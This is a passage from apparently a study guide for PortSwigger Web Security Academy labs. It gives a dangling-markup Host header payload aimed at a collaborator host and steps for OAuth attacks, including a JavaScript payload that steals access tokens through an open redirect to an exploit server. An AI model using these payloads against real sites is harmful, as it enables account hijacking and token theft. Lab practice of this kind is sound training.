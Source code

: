 ### 6. Dangling markup
```
Host: 0a42005f03d221bec0c45997001600ce.web-security-academy.net:'<a href="http://burp-collaborator.com?
```
>https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection
"

# OAuth authentication  
## Approach  
Arises at Sign-in page. The main request to play with is ```/auth?client_id=...```  
![image](https://user-images.githubusercontent.com/58632878/224734816-92aff8a5-7441-4768-826a-d519bb538e79.png)  
  
![image](https://user-images.githubusercontent.com/58632878/224735047-c3025f22-cccc-41ae-bcbf-02f6de69ac82.png)  


## Labs
### 1. Authentication bypass via OAuth implicit flow
>Intercept the whole process of OAuth authentication and observe /authenticate POST request that contains email and username. Change these parameters to carlos'.

### 2. Forced OAuth profile linking
>Intercept the whole process of OAuth authentication and observe /oauth-linking request with code. This request is without state parameter, so Generate CSRF PoC and drop the request. Send it to victim and login via OAuth.

### 3. OAuth account hijacking via redirect_uri
>Intercept the whole process of OAuth authentication and observe /auth?client_id=xxx&redirect_uri=xxx&response_type=xxx&scope=xxx, change redirect_uri to your collaborator server and Generate CSRF PoC, drop the request. Send it to victim and find out his /oauth-callback?code.

### 4. Stealing OAuth access tokens via an open redirect
>4.1 Same as the previous one observe ```/auth?client_id=xxx&redirect_uri=xxx&response_type=xxx&scope=xxx```.  
>4.2 On home page open any post and at the bottom observe "Next post" button. It is open redirect.  
>4.3 Write the next URL:  
>. . . ```redirect_uri=https://xxx.web-security-academy.net/oauth-callback/../../post/next?path=https://exploit-xxx.exploit-server.net/exploit/``` . . .  
>This will redirect us to our exploit server and send us oauth code as fragment identifier, so we need to extract this value using JS.  
>4.4 Write final payload:  
```
<script>
    if (!document.location.hash) {
        window.location = "https://oauth-xxx.web-security-academy.net/auth?client_id=np1l4fiaizdo4d6r09enk&redirect_uri=https://xxx.web-security-academy.net/oauth-callback/../../post/next?path=https://exploit-xxx.exploit-server.net/exploit/&response_type=token&nonce=-2091701200&scope=openid%20profile%20email"
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```
